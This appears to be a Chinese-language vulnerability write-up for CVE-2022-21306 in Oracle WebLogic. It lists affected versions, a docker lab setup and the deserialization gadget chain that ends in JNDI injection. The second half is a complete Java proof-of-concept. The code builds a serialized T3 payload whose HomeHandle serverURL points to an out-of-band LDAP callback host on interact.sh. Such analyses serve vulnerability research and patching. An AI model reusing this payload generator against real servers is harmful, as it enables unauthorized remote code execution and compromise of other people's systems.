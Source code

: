 # CVE-2022-21306 反序列化漏洞
- [影响版本](#影响版本)
- [环境搭建](#环境搭建)
- [原理分析](#原理分析)
		- [FileSessionData](#FileSessionData)
		- [AttributeWrapperUtils](#AttributeWrapperUtils)
		- [JNDI](#JNDI)
- [poc](#poc)

## 影响版本
Oracle Weblogic 12.1.3.0.0   
Oracle Weblogic 12.2.1.3.0  
Oracle Weblogic 12.2.1.4.0 
Oracle Weblogic 14.1.1.0.0
## 环境搭建
`docker run --name="weblogic" -d -p 7001:7001 -p 5005:5005 vulhub/weblogic:12.2.1.3-2018`
## 原理分析
一条T3协议的反序列化新链,简单记录一下该链.

### FileSessionData
在Weblogic的有一个FileSessionData类继承于SessionData类,其重写了toString()方法.
![](pic/2022-05-31-10-05.png)
在该类中经过几次调用最后会执行AttributeWrapperUtils.unwrapObject(name, (AttributeWrapper)o.
![](pic/2022-05-31-10-05-1.png)
其中o是从attributes map中取得Key为wl_debug_session的对象.
### AttributeWrapperUtils
来到AttributeWrapperUtils类中,当取得的对象为BusinessHandle子类时则会调用BusinessHandle类的getBusinessObject()方法.	
![](pic/2022-05-31-10-05-2.png)
来到其getBusinessObject()方法,其中当primarkKey为空时,则调用homeHandle#getEJBHome()方法.
![](pic/2022-05-31-10-05-4.png)
### JNDI
最终在homeHandle中执行了以ctx.lookup()造成JDNI注入.
![](pic/2022-05-31-10-05-5.png)

最后用CC5中的BadAttributeValueExpException来进入FileSessionData的toString()方法即可.
### poc
```java
import weblogic.ejb.container.internal.BusinessHandleImpl;  
import weblogic.ejb20.internal.HomeHandleImpl;  
import weblogic.servlet.internal.AttributeWrapper;  
import weblogic.servlet.internal.session.FileSessionData;  
import javax.management.BadAttributeValueExpException;  
import javax.naming.ldap.LdapName;  
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
public class cve_2022_21306 {  
    public static void main(String[] args) throws Exception {  
        //HomeHandleImpl  
        HomeHandleImpl homeHandles = new HomeHandleImpl();  
        Field jndiname = homeHandles.getClass().getDeclaredField("jndiName");  
        Field serverurl = homeHandles.getClass().getDeclaredField("serverURL");  
        serverurl.setAccessible(true);  
        jndiname.setAccessible(true);  
        jndiname.set(homeHandles,new LdapName("cn=a,dc=a"));  
        serverurl.set(homeHandles,"ldap://caa336c2vtc0000tkqx0gffd8ahyyyyyd.interact.sh/a");  
        //BusinessHandleImpl  
        BusinessHandleImpl businessHandle = new BusinessHandleImpl();  
        Field homeHandle = businessHandle.getClass().getDeclaredField("homeHandle");  
        homeHandle.setAccessible(true);  
        homeHandle.set(businessHandle,homeHandles);  
        //AttributeWrapper  
        AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);  
        Map<String, Object> attribute = new HashMap<>();  
        attribute.put("wl_debug_session",attributeWrapper);  
        //FileSessionData  
        FileSessionData fileSessionData = new FileSessionData();  
        Field attributes = fileSessionData.getClass().getSuperclass().getDeclaredField("attributes");  
        attributes.setAccessible(true);  
        attributes.set(fileSessionData,attribute);  
        //BadAttributeValueExpException  
        BadAttributeValueExpException Badobj = new BadAttributeValueExpException(null);  
        Field val = Badobj.getClass().getDeclaredField("val");  
        val.setAccessible(true);  
        val.set(Badobj,fileSessionData);  
        ObjectOutputStream oos  = new ObjectOutputStream(new FileOutputStream("test.ser"));  
        oos.writeObject(Badobj);  
    }}
```